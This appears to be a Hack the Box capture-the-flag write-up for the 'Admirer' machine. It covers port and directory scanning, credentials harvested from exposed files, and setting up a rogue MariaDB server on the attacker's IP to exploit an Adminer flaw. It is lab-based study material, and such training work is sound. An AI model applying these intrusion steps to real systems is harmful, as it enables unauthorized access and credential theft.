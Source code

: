 # Hack the Box - Admirer

```CSS
Machine IP: 10.10.10.187 - Linux
```

# Reconaissance
## NMAP (Surface)
```CSS
▶ nmap -Pn -sS -p- 10.10.10.187 -T4 --min-rate 1000 -oN nmap.surface

Nmap scan report for 10.10.10.187
Host is up (0.100s latency).
Not shown: 65532 closed tcp ports (reset)

PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 75.35 seconds
```

## NMAP (Deep)
```CSS
▶ nmap -sC -sV -p 21,22,80 10.10.10.187 -oN nmap.deep

Nmap scan report for 10.10.10.187
Host is up (0.088s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 4a71e92163699dcbdd84021a2397e1b9 (RSA)
|   256 c595b6214d46a425557a873e19a8e702 (ECDSA)
|_  256 d02dddd05c42f87b315abe57c4a9a756 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/admin-dir
|_http-title: Admirer
|_http-server-header: Apache/2.4.25 (Debian)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.59 seconds
```

## Application (Port 80)
![image](https://user-images.githubusercontent.com/83878909/229423143-85c36971-4509-41d0-8710-63c5cf8efe6e.png)

## Brute-Force (Common Directories and Files)
```
▶ gobuster dir --url http://10.10.10.187 --wordlist /seclists/Discovery/Web-Content/common.txt --threads 25
```
![image](https://user-images.githubusercontent.com/83878909/229427047-c09451d1-a6ed-4ccd-89aa-bae599dea65b.png)
  - robots.txt
![image](https://user-images.githubusercontent.com/83878909/229427379-501aadd4-818e-4d55-97d8-daf7fec60a39.png)

```CSS
▶ gobuster dir --url http://10.10.10.187/admin-dir --wordlist /seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --extensions php,txt --threads 25
```
![image](https://user-images.githubusercontent.com/83878909/229438336-3f85f7f9-f2b0-4f1f-b238-97f066754b5f.png)
  - contacts.txt
  - credentials.txt
![image](https://user-images.githubusercontent.com/83878909/229438499-9d4192a2-b214-4cdd-b026-8abcf9009cb0.png)
![image](https://user-images.githubusercontent.com/83878909/229438595-3c5b4ddc-cd03-46be-b12a-5a6d84e6b361.png)

---

## FTP Login
  - FTP Login: `ftpuser:%n?4Wz}R$tTF7`
![image](https://user-images.githubusercontent.com/83878909/229441021-6974e5c6-1dd5-4819-97ed-e76d136aab22.png)
  - Download Files: `dump.sql` and `html.tar.gz`.
![image](https://user-images.githubusercontent.com/83878909/229441387-3b270388-ef2e-425b-b68a-1e0b7037d075.png)
  - `dump.sql` : No useful information.
  - `html.tar.gz` : `▶ tar -xvzf html.tar.gz`
![image](https://user-images.githubusercontent.com/83878909/229442818-fc7ff4da-a787-4434-9e9e-b9a0b3ee8cf9.png)
  - `index.php` : Database credentials found `waldo:]F7jLHw:*G>UPrTo}~A"d6b`
![image](https://user-images.githubusercontent.com/83878909/229444624-5870fc15-d309-4d7c-a85a-8c0a5511660d.png)
  - `/utility-scripts/db_admin.php`: Database credentials found `waldo:Wh3r3_1s_w4ld0?`
![image](https://user-images.githubusercontent.com/83878909/229447920-b34a8efb-769a-42de-a16f-a6e808de9bc4.png)
  - `w4ld0s_s3cr3t_d1r/credentials.txt`
![image](https://user-images.githubusercontent.com/83878909/229448581-7a114624-eb66-4323-bdab-bab29630636b.png)

---

## Brute-Force
```
▶ gobuster dir --url http://10.10.10.187/utility-scripts/ --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/combined_words.txt --extensions php,txt  --threads 50
```
![image](https://user-images.githubusercontent.com/83878909/229453408-bae74a9a-7686-4194-a828-c8bf131204e1.png)

---

## Application
  - Adminer
![image](https://user-images.githubusercontent.com/83878909/229453875-f4a1d735-6a09-4bb5-a360-44caae6481ce.png)
  - About [Adminer vulnerability](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool).

---

### Create MariaDB Database and User
  1. Start MariaDB : `systemctl start mariadb`
  2. Login to MariaDB : `mysql -u root -p` (The password is root)
  3. Create database : `CREATE DATABASE PwnMe; USE PwnMe; CREATE TABLE pwned (name VARCHAR(2000));`
  4. Create User : `CREATE USER 'xoxo'@'10.10.10.187' IDENTIFIED BY 'passwd';` ##Specify the Victim IP address
  5. Grant Privileges : `GRANT ALL PRIVILEGES ON PwnMe.* TO 'xoxo'@'10.10.10.187';` ##Specify the Victim IP address
  6. Refersh Privileges : `FLUSH PRIVILEGES;`

## Firewall Exception
- Add a Firewall Exception (if enabled): ufw allow from 10.10.14.34 to any port 3306

## Configure MariaDB to bind to attacker Server/VPN IP address
1. Change Bind address in : `/etc/mysql/mariadb.conf.d/50-server.cnf`
2. Bind Address : Attacker Server/VPN IP `bind-address = 10.10.14.34`
![image](https://user-images.githubusercontent.com/83878909/229495035-73e3bf04-05d5-4660-8b6e-a08c37946d42.png)

## Restart and Check Service
- Restart MariaDB server and check that the service is listening on the correct port
```CSS
▶ systemctl restart mariadb
▶ netstat -pano | less
```
![image](https://user-images.githubusercontent.com/83878909/229494627-683d637e-0a9f-4e7e-ba61-25471d2f19e3.png)

---

## Exploit
- Login using the created database and credentials.
![image](https://user-images.githubusercontent.com/83878909/229499456-19111d24-a091-4402-be57-f7566ffca780.png)
![image](https://user-images.githubusercontent.com/83878909/229498960-f29142fc-f648-45c1-83ae-cece1cf58fd6.png)

